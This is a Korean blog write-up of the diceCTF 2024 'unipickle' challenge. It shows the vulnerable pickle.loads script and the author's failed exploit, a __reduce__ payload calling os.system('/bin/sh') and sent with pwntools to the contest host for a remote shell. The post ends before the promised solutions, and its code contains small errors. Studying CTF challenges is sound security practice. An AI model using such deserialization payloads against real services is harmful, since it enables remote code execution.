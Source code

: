```yaml
---
title: diceCTF-unipickle writeup
date: 2024-02-07 00:10:10 +0900
categories: [writeup, misc]
tags: [diceCTF]
render_with_liquid: false
---
```


[diceCTF](https://ctf.dicega.ng/challs)에 참가는 했는데 문제는 풀지 못했다..

![1](/assets/img/posts/2024-02-07-itsme.png)

Unipickle이라는 문제에 꽂혀서 하나라도 풀어 보자는 생각이었지만 결국 실패했다. 대회가 끝난 뒤 디스코드에서 긁어 모은 라이트업을 내 나름대로 정리해보고자 한다.

## unipickle.py

```python
#!/usr/local/bin/python
import pickle
pickle.loads(input("pickle: ").split()[0].encode())
```

문제에 첨부된 unipickle.py의 내용은 정말 간단하다.
우선 python의 pickle 모듈을 사용한다. 사용자의 입력 값을 문자열로써 받아 UTF-8로 인코딩해 바이트 값으로 만들고, 이걸 pickle.loads로 역직렬화시킨다.

## 풀이

pickle에는 보안 취약성이 존재하는데, __reduce__ 메소드를 직렬화시킬 코드에 사용한다면 스택에서 호출 가능한 객체를 가져와서 별다른 <b>검증 없이 실행</b>하게 된다.

이에 착안하여 내가 구상한 공격 코드는 다음과 같다.

```python
import pickle
import pwn

class vul(object):
    import os
    
    def __reduce__(self):
        return (self.os.system, ("/bin/sh",))

temp = pickle.dumps(vul())
temp = temp.decode

r = remote('mc.ax', 31773)
r.sendline(temp)
r.interactive()
```

자세히 살펴보면, reduce 메소드가 반환할 튜플에 self.os.system을, 그 매개변수로 /bin/sh 를 담았다.
해당 메소드가 담긴 객체를 pickle.dumps로 직렬화했고,  
직렬화된 바이트 값을 decode로 UTF-8 인코딩해 서버의 input 함수에 전달하고자 했다.

잘 실행될 줄 알았으나...  
decode 부분에서 막혔다. 이유는 UTF-8로 인코딩이 불가능한 바이트 값을 포함하고 있었기 때문.  
결국 서버는 입력단의 split 때문에 문자열만 입력을 받고 있기 때문에, 이를 우회하기 위해선 UTF-8로 정상적인 디코딩이 가능한 직렬화된 바이트 값을 만들어야 한다.

필자는 이 이상 나아가지 못했지만, 이후는 디스코드에서 찾은 풀이들을 정리한 내용을 기술하겠다.

